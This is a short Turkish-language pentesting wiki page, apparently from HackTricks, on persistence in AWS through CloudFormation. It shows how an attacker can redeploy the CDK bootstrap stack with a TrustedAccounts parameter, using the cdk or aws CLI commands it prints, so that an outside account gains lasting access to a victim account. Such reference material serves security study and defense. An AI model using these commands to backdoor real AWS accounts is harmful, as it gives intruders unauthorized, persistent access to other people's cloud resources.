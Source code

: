 # AWS - Cloudformation Persistence

{{#include ../../../banners/hacktricks-training.md}}

## CloudFormation

Daha fazla bilgi için erişin:

{{#ref}}
../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### CDK Bootstrap Stack

AWS CDK, `CDKToolkit` adında bir CFN yığını dağıtır. Bu yığın, kurban hesabına CDK projeleri dağıtmak için dış hesapların kullanılmasına izin veren `TrustedAccounts` adlı bir parametreyi destekler. Bir saldırgan, bu durumu kullanarak kendisine kurban hesabına süresiz erişim sağlayabilir; ya AWS cli kullanarak yığını parametrelerle yeniden dağıtarak ya da AWS CDK cli kullanarak.
```bash
# CDK
cdk bootstrap --trust 1234567890

# AWS CLI
aws cloudformation update-stack --use-previous-template --parameters ParameterKey=TrustedAccounts,ParameterValue=1234567890
```
{{#include ../../../banners/hacktricks-training.md}}
